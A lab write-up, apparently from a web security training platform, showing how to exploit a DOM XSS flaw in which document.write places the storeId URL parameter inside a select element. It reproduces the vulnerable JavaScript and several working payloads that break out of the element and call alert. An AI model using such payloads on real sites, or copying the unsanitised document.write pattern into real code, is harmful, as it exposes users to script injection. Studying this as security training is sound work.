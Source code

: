 # Lab: DOM XSS in document.write sink using source location.search inside a select element

 This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 


# Step 1 Locate a location to test for DOM XSS on webapp

I find the document.write function for checking the stock of a product

![image](https://user-images.githubusercontent.com/83407557/211238756-70f19ee8-891f-4dd0-8791-f41fa09692be.png)

# Step 2 Use the source luke

Looking at the javascript:

```javascript

var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
  document.write('<option selected>'+store+'</option>');
  }
  for(var i=0;i<stores.length;i++) {
  if(stores[i] === store) {
  continue;
  }
    document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
```

I am going want to break out of this select element using the StoreId source:

```javascript
document.write('<select name="storeId">');
```

So if I use the following:

```javascript
&storeId=BAD STUFF HERE
```
and add it onto the request for a product:

```
/product?productId=1&storeId=BAD STUFF HERE
```

I can see that "BAD STUFF HERE" is now one of the store options:

![image](https://user-images.githubusercontent.com/83407557/211239805-5d65e27c-70b8-47eb-8531-9af60f802915.png)

# Step 3 Break out of select element

Now that I can hijack the document.write sink, I still need to break out of the select element

```html
script
<select name="storeId">

breaking out
  "></select>BREAK OUT
```
So the new url would be

```
/product?productId=1&storeId="></select>BREAK OUT
```

![image](https://user-images.githubusercontent.com/83407557/211240727-c6b2e24c-cfd1-47c0-9d00-aa26a10c7362.png)

# Step 4 Use XSS once broken out

Now I know that this is how I am meant to solve this lab with a payload like:

```
/product?productId=1&storeId="></select><img src onerror=alert(1)>
```

Which I will show:

![image](https://user-images.githubusercontent.com/83407557/211241007-cb2aed49-0b75-4e86-ac96-72b6d6ceff3e.png)

![image](https://user-images.githubusercontent.com/83407557/211241039-9f19ebff-daac-4d1c-802e-037e701f56ff.png)

# Alternative

However, it is not required to close the select element to get XSS to fire off, and alternate payload could be something like 

```
/product?productId=1&storeId="><img src onerror=alert(2)>
```

![image](https://user-images.githubusercontent.com/83407557/211241288-4f2213f0-85fa-4e74-9870-3cdcf6f42f43.png)

And you can see why just looking at the elements in dev tools:

![image](https://user-images.githubusercontent.com/83407557/211241413-29d5b365-d9d0-47c1-89bb-359069944350.png)

Furthermore the "> isn't required either as just setting the storeId as a basic XSS payload with script tags will also work:

![image](https://user-images.githubusercontent.com/83407557/211241596-ca13f2ee-f5e4-4a97-ba32-19e7f2581dd6.png)

For the same reason:

![image](https://user-images.githubusercontent.com/83407557/211241621-80e8dae8-494c-4fd1-af90-7d1aec68bdf6.png)

Another option for searching for this would have been to use a canary from DOM invader, once the StoreId source was initially found:

![image](https://user-images.githubusercontent.com/83407557/211241811-b8c10709-8728-42c2-921e-234575373f55.png)
